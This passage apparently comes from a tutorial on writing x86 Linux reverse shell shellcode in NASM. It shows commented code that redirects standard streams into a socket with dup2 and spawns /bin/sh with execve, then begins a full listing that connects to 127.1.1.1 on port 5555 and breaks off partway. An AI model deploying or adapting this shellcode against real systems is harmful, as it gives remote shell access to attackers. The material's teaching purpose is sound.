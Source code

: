 
1.3.5) This part of the code will use dup2 to redirect the STDIN, STDOUT and STDERR into the socket:
```nasm
;This part redirect the STDIN, STDOUT and STDERR into the socket
xor ecx, ecx        ;Initialize ecx to NULL
mov cl, 3           ;Initialize cl to 3
boucle:
    xor eax, eax    ;Initialize eax to NULL
    mov al, 0x3f    ;Move the "dup2" systemcall number inside al
    mov ebx, esi    ;Move the return value of "socket" in ebx
    dec cl          ;Decrement cl to 1

    ;C code representation of the systemcall:
    ;for (int i = 0; i < 3; i++)
    ;{
    ;    dup2(s, i);
    ;}
    int 0x80        ;Execute systemcall
    inc cl          ;Increment cl to 1
    loop boucle     ;Loop three time until cl is equal to 0
```

1.3.6) It's finaly the time to execute the shell:
```nasm
;This part initialize and call the "execve" systemcall
xor eax, eax        ;Initialize eax to NULL
push eax            ;Push a NULL Byte on the stack
push 0x68732f2f     
push 0x6e69622f     ;push "/bin//sh" on the stack
mov ebx, esp        ;Initialize ebx to "/bin//sh%00"
xor ecx, ecx        ;Initialize ecx to NULL
xor edx, edx        ;Initialize edx to NULL
mov al, 0xb         ;Move the "execve" systemcall number inside al
;C code representation of the systemcall:
; --> execve("/bin/sh", NULL, NULL);
int 0x80            ;Execute systemcall
```

You can find the whole code below:
-
```nasm
;ASM (x86) reverse shell for 127.1.1.1 on port 5555
global _start

_start:
    ;This part initialize the registers and the stack
    mov ebp, esp        ;Initialize the stack frame

    xor eax, eax        ;Initialize eax to NULL
    xor ebx, ebx        ;Initialize ebx to NULL
    xor ecx, ecx        ;Initialize ecx to NULL
    xor edx, edx        ;Initialize edx to NULL

    ;This part push the structure "sockaddr_in" on the stack
    ;struct sockaddr_in struct
    ;addr.sin_family = AF_INET;
    ;addr.sin_port = htons(5555);
    ;addr.sin_addr.s_addr = inet_addr("127.1.1.1");
    push eax
    push eax            ;Fill the end of the structure with 2 NULL Bytes
    push 0x0101017f     ;Initialize the variable "addr.sin_addr.s_addr" to connect to 127.1.1.1  
    push word 0xb315    ;Initialize the variable "addr.sin_port" to connect on port 5555 
    push word 0x02      ;Initialize the variable "addr.sin_family" to IPV4 (AF_INET)


```